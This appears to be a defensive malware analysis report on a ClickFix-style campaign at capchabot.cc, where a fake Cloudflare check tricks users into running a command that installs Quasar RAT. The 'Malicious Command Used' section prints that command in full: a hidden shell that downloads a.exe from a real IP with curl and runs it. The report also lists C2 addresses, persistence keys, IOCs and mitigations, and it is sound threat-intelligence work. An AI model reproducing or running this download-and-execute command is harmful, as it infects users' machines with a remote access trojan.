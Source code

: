 # Malware Analysis Report: (capchabot.cc) Campaign (Quasar RAT)

## Report Date

2025-08-06

---

## Executive Summary

A new malware distribution campaign masquerading as a **Cloudflare verification page** has been discovered at `capchabot.cc`. The site tricks users into pasting malicious code into the **Windows Run dialog**, which downloads and executes a **Quasar RAT** payload.

Behavioral analysis and sandbox detonation confirm the payload installs a persistent, memory-injecting RAT with command-and-control (C2) communication. The campaign uses **stealthy execution techniques**, including `conhost.exe --headless`, to avoid user detection.

---

## Key Findings

| Category              | Details                                                            |
| --------------------- | ------------------------------------------------------------------ |
| **Threat Family**     | Quasar RAT (Remote Access Trojan)                                  |
| **File**              | `a.exe`                                                            |
| **SHA256**            | `e0a69439563c8534c2ef842d4ffcb16696f286d16585186de20351892f9917f1` |
| **Delivery Method**   | Social engineering via clipboard + Run dialog                      |
| **Domain Used**       | `capchabot.cc`                                                     |
| **Payload Source IP** | `http://213.209.150.188:8112/a.exe`                                |
| **C2 Connection**     | `213.209.150.188:2106` (Netherlands)                               |
| **Persistence**       | Registry Run key                                                   |
| **Execution Method**  | `conhost.exe --headless`                                           |
| **Malware Score**     | 10/10 (Triage)                                                     |

---

## Infection Flow

User visits `capchabot.cc` ➝ Fake Cloudflare prompt ➝
Clipboard auto-copy of command ➝ Run dialog ➝
Payload (`a.exe`) downloaded to `%TEMP%` ➝
Executed with `conhost.exe --headless` ➝
RAT installs and persists via registry ➝
C2 contact initiated

---

## Malicious Command Used

`
conhost.exe --headless cmd /c cd /D %userprofile% && curl -s -o a.exe http://213.209.150.188:8112/a.exe && conhost.exe --headless a.exe && REM By pressing the enter button you confirm you are not a bot
`

### Breakdown:

| Step                            | Action Description                         |
| ------------------------------- | ------------------------------------------ |
| `conhost.exe --headless cmd /c` | Launches a hidden shell                    |
| `cd /D %userprofile%`           | Switches to user directory                 |
| `curl -s -o a.exe ...`          | Silently downloads `a.exe`                 |
| `conhost.exe --headless a.exe`  | Executes payload invisibly                 |
| `REM ...`                       | Social engineering line to fake legitimacy |

---

## Sample Details

| Property         | Value                                                              |
| ---------------- | ------------------------------------------------------------------ |
| File Name        | `a.exe`                                                            |
| SHA256           | `e0a69439563c8534c2ef842d4ffcb16696f286d16585186de20351892f9917f1` |
| Type             | PE32 executable                                                    |
| Size             | \~250 KB                                                           |
| Dropped Location | `%TEMP%\a.exe`                                                     |
| Notes            | Analyst relocated file to `Documents\` for sandbox upload          |

---

## Behavioral Analysis (Triage)

### Malicious Activities Observed:

* Executed EXE from `%TEMP%\a.exe`
* Created persistence via registry:

  * `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\a.exe = "C:\Users\Admin\Documents\a.exe"`
* Injected into:

  * `cmd.exe`
  * `reg.exe`
  * `AppLaunch.exe`
* Abused APIs:

  * `SetThreadContext`
  * `AdjustPrivilegeToken`
  * `WriteProcessMemory`
  * `SetWindowsHookEx`
  * `AddClipboardFormatListener`

---

### Processes Observed:

* `%TEMP%\a.exe`
* `cmd.exe /c reg add ...`
* `reg.exe` (adding Run key)
* `cmd.exe /c a.exe`
* `AppLaunch.exe` (used as injection target)

---

### Network Behavior:

| Destination IP    | Country        | Port | Purpose                |
| ----------------- | -------------- | ---- | ---------------------- |
| `213.209.150.188` | Netherlands    | 8112 | Malware delivery       |
| `213.209.150.188` | Netherlands    | 2106 | Command & Control      |
| `57.128.140.217`  | United Kingdom | 443  | Geo-recon (`ipwho.is`) |

---

## MITRE ATT\&CK Mapping

| Tactic               | Technique Description      | ID        |
| -------------------- | -------------------------- | --------- |
| Persistence          | Registry Run Key           | T1547.001 |
| Execution            | Command Line Interface     | T1059     |
| Defense Evasion      | Modify Registry            | T1112     |
| Discovery            | System Language Discovery  | T1614.001 |
| Privilege Escalation | Adjust Token Privileges    | T1134.001 |
| C2 Communication     | Application Layer Protocol | T1071     |

---

## Indicators of Compromise (IOCs)

**Hashes:**

* SHA256: `e0a69439563c8534c2ef842d4ffcb16696f286d16585186de20351892f9917f1`
* Filename: `a.exe`

**Domain:**

* `capchabot.cc`

**IP Addresses:**

* `213.209.150.188` (Payload + C2)
* `57.128.140.217` (Recon)

**Registry Key:**

* `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\a.exe`

---

## Recommended Mitigation Steps

* Block all traffic to IP `213.209.150.188`
* Blacklist domain `capchabot.cc`
* Hunt for `a.exe` in `%TEMP%` or autorun keys in registry (although it might remove itself, not confirmed)
* Monitor for abuse of `conhost.exe --headless`
* Alert if clipboard instructions or Run dialog usage is observed from browsers
* Educate users: **Never paste unknown text into Run**

---


## Attribution Notes

This campaign is linked to the **Quasar Remote Access Trojan** — an open-source RAT used in both criminal and nation-state operations. It provides full remote access, persistence, credential theft, and keylogging capabilities. The campaign seen at `capchabot.cc` weaponizes social engineering and stealthy execution in a highly deceptive manner.
